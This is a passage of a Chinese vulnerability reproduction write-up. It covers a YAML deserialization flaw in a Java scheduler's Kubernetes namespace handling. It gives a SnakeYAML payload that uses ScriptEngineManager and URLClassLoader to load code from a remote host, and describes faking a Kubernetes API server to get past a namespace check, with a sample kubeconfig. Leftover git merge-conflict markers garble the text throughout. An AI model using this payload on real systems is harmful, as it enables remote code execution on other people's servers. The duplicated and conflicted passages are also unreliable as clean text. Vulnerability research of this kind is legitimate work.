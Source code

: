也就 namespace 可控，但是在进入 upsertNamespaceAndResourceToK8s 方法之后，会有一层判断，如下：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if (!this.checkNamespaceToK8s(k8sNamespace.getNamespace(), k8sNamespace.getClusterCode())) {
            throw new RemotingException(String.format("namespace %s does not exist in k8s cluster, please create namespace in k8s cluster first", k8sNamespace.getNamespace()));
        } else {
            return this.upsertNamespacedResourceToK8s(k8sNamespace, yamlStr);
        }
```

<<<<<<< HEAD
这离会判断设置的 k8s 集群中是否存在传入的 namespace。正常集群肯定不行，因为想要利用成功，就需要设置 namespace 为类似！！javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://dnslog](http://dnslog/)"\]\]\]\] 这样的字符串，所以需要伪造一个集群 Server 端，绕过这里的判断。
=======
这离会判断设置的 k8s 集群中是否存在传入的 namespace。正常集群肯定不行，因为想要利用成功，就需要设置 namespace 为类似!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://dnslog](http://dnslog/)"\]\]\]\] 这样的字符串，所以需要伪造一个集群 Server 端，绕过这里的判断。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

复现过程如下：  
1、集群配置，将 masterUrl 指定为伪造的 Server 端：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
apiVersion: v1
clusters:
- cluster:
    server: http://127.0.0.1:5000
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
kind: Config
preferences: {}
users: []
```

<<<<<<< HEAD